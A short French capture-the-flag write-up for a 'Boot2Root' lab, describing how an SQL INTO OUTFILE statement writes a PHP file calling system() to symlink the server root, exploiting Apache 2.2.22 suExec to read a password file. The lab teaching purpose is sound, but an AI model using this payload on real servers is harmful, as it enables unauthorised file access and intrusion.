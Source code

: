 # Boot2Root - A patchy web server

On recommence à partir de l'étape `Step 4 - Reverse shell`

## Step 4 - suExec
On regarde si il existe des failles avec la version utilisée d'Apache (`2.2.22`)
On trouve un exploit qui nécessite de créer un fichier PHP spécifique et de le charger avec le serveur.

On s'éxécute alors comme dans le writeup1, avec le fichier PHP `apache.php`

```
SELECT '<?php system("ln -sf / test99.php"); symlink("/", "test99.php"); ?>' INTO OUTFILE "/var/www/forum/templates_c/apache.php"
```

Il suffit d'ouvrir le lien `https://<IP>/forum/templates_c/apache.php`, ce qui va créer un dossier qui s'appelle `test99.php`.
L'ouvrir va nous rediriger vers la racine. Il reste juste à aller voir `/home/LOOKATME/password`

## Sources
Exploit suExec: https://www.exploit-db.com/exploits/27397